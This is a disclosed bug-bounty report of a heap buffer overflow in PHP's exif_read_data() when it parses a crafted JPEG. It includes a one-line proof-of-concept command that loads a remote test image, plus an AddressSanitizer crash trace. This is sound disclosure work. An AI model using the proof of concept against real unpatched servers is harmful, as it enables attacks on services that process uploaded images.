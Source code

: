# heap-buffer-overflow (READ of size 48) in exif_read_data()

## Report Details
- **Report ID**: 384214
- **URL**: https://hackerone.com/reports/384214
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-19T15:51:41.381Z
- **Disclosed**: 2018-09-01T19:06:14.134Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
`exif_read_data` in PHP 5.6.36, 7.1.x and 7.2.x is vulnerable to a heap buffer overflow when fed a specially crafted JPEG. Any online service that reads EXIF data from uploaded JPEGs is potentially vulnerable to this flaw. This has been fixed with the release of PHP 7.2.8 today. Other releases are forthcoming but the [original bug report](https://bugs.php.net/bug.php?id=76557) is now public.

```
USE_ZEND_ALLOC=0 ./php-7.2.7 -r '$exif = exif_read_data("http://dtf.pw/php727/poc/630/test000.jpeg"); var_dump($exif);'
```

```
==996==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x61d000011958 at pc 0x0000004ce426 bp 0x7ffc064d6a00 sp 0x7ffc064d61b0
READ of size 48 at 0x61d000011958 thread T0
    #0 0x4ce425 in __asan_memcpy /b/build/slave/linux_upload_clang/build/src/third_party/llvm/compiler-rt/lib/asan/asan_interceptors_memintrinsics.cc:23:3
    #1 0x13f4905 in _estrndup /root/php-7.2.7/Zend/zend_alloc.c:2538:2
    #2 0xe039ad in exif_iif_add_value /root/php-7.2.7/ext/exif/exif.c:2119:21
    #3 0xe039ad in exif_iif_add_tag /root/php-7.2.7/ext/exif/exif.c:2199
    #4 0xe0b818 in exif_process_IFD_TAG /root/php-7.2.7/ext/exif/exif.c:3543:2
    #5 0xe0bccf in exif_process_IFD_in_MAKERNOTE /root/php-7.2.7/ext/exif/exif.c:3213:8
    #6 0xe0bccf in exif_process_IFD_TAG /root/php-7.2.7/ext/exif/exif.c:3494
    #7 0xe08c15 in exif_process_IFD_in_JPEG /root/php-7.2.7/ext/exif/exif.c:3576:8
    #8 0xe0ac0e in exif_process_IFD_TAG /root/php-7.2.7/ext/exif/exif.c:3534:11
    #9 0xe08c15 in exif_process_IFD_in_JPEG /root/php-7.2.7/ext/exif/exif.c:3576:8
    #10 0xe014c0 in exif_process_TIFF_in_JPEG /root/php-7.2.7/ext/exif/exif.c:3665:2
    #11 0xe014c0 in exif_process_APP1 /root/php-7.2.7/ext/exif/exif.c:3690
    #12 0xe014c0 in exif_scan_JPEG_header /root/php-7.2.7/ext/exif/exif.c:3835
    #13 0xe014c0 in exif_scan_FILE_header /root/php-7.2.7/ext/exif/exif.c:4224
    #14 0xe014c0 in exif_read_from_impl /root/php-7.2.7/ext/exif/exif.c:4365
    #15 0xe014c0 in exif_read_from_stream /root/php-7.2.7/ext/exif/exif.c:4382
    #16 0xdf8f18 in exif_read_from_file /root/php-7.2.7/ext/exif/exif.c:4409:8
    #17 0xdf8f18 in zif_exif_read_data /root/php-7.2.7/ext/exif/exif.c:4482
    #18 0x17c5d34 in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER /root/php-7.2.7/Zend/zend_vm_execute.h:617:2
    #19 0x15ed419 in execute_ex /root/php-7.2.7/Zend/zend_vm_execute.h:59723:7
    #20 0x15eda9a in zend_execute /root/php-7.2.7/Zend/zend_vm_execute.h:63760:2
    #21 0x14758eb in zend_eval_stringl /root/php-7.2.7/Zend/zend_execute_API.c:1082:4
    #22 0x1475fb9 in zend_eval_stringl_ex /root/php-7.2.7/Zend/zend_execute_API.c:1123:11
    #23 0x1475fb9 in zend_eval_string_ex /root/php-7.2.7/Zend/zend_execute_API.c:1134
    #24 0x18c4aea in do_cli /root/php-7.2.7/sapi/cli/php_cli.c:1044:8
    #25 0x18c2c03 in main /root/php-7.2.7/sapi/cli/php_cli.c:1405:18
    #26 0x7f43ac6d32e0 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x202e0)
    #27 0x427479 in _start (/root/php-7.2.7/sapi/cli/php+0x427479)

Address 0x61d000011958 is a wild pointer.
SUMMARY: AddressSanitizer: heap-buffer-overflow /b/build/slave/linux_upload_clang/build/src/third_party/llvm/compiler-rt/lib/asan/asan_interceptors_memintrinsics.cc:23:3 in __asan_memcpy
```

## Impact

Remote code execution

## Attachments
No attachments
